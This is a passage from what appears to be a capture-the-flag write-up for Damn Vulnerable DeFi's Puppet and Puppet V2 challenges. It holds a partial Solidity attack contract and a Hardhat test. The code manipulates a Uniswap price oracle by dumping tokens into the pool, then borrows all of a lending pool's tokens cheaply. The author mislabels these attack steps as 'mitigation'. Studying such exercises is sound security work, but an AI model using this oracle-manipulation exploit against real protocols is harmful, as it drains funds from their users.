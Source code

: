 ```solidity
        player = _player;
    }

    function swap() public{

        // approve exchange
        token.approve(address(exchange),amount);
        // converts token to eth
        exchange.tokenToEthSwapInput(amount, 1, block.timestamp + 5000);
        // now deposit with 20ETH value
        pool.borrow{value:20 ether,gas:1000000}(tokenAmount,player);
    }
    receive() external payable{}
}
```

```jsx
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        /*steps of mitigation
        1. Deposit 1000 token in uniswap pool and get ETH in return and decrease the value of tokens
        -> Before -> Uniswap Pool Token Amt:10 and ETH:10 ETH
        -> After -> Uniswap Pool Token Amt:1010 and ETH:0.98 ETH
        2. Now as we lowered the balance of Uniswap Pool we borrow all tokens by depositing 20 ETH.
        3. After that we will again borrow our tokens back from Uniswap Pool and reset the balance of Uniswap Pool 
        */
       let attack = await ethers.getContractFactory("puppetAttack");
       let attacker = await attack.deploy(
        uniswapExchange.address,
        lendingPool.address,
        token.address,
        player.address,
        {value:ethers.utils.parseEther("15")}
       )
        // send the Initial balance to attacker address
       await token.connect(player).transfer(attacker.address,PLAYER_INITIAL_TOKEN_BALANCE);
       // then call swap to sweep all balance
       await attacker.swap();

    });
```

- Check out the Comments for Understanding the Mitigation Steps!

# 9. Puppet V2

- Very Similar to 8. ************Puppet************
- **Steps of Mitigation:**
1. First, deposit the initial token balance into UniswapV2Pool to drop the value of tokens and reduce the amount of WETH.
2. Then, convert ETH to WETH, and our balance becomes approximately 30 WETH.
3. As for now, the price of tokens has dropped. Now, we can exchange tokens with WETH and get 1 million tokens for under 30 WETH.
4. We win!
- **********Solution:**********

